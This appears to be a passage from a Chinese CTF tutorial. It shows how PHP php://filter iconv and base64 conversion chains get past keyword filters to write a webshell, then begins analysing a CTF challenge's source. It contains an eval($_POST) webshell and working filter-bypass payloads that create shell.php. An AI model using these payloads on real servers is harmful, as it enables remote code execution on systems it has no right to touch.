 写入的文件

![image-20210911153731088](images/21.png)

#### usc-4

通过UCS-4方式，对目标字符串进行4位一反转（这里的4LE和4BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-4中4的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了.

```
<?php
echo iconv("UCS-4LE","UCS-4BE",'<?php @eval($_POST[abcd]);?>');
```

```
28字符 <?php @eval($_POST[abcd]);?> 转为 hp?<e@ p(lavOP_$a[TS]dcb>?;)
```

payload:

```
?content=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?<e@ p(lavOP_$a[TS]dcb>?;)/resource=shell.php
```

写入内容

![image-20210911154156137](images/22.png)

#### utf8-utf7

在UTF-8,UTF-7的作用下convert.iconv 这个过滤器可以把等号转化成+AD0-

![image-20210911154459800](images/23.png)

而+AD0-这个字符串可以被base64解码,这样就可以解决base64中等号的问题了、

```
payload:
?content=php://filter/write=PD9waHAgcGhwaW5mbygpOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=webshell.php
注意这里base64要满足4个字节一组,不要去影响shell的base64编码
```

写入的文件

![image-20210911155616531](images/24.png)



## 例题分析

### VMCTF Checkin

题目源码

```
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    echo $content;
```
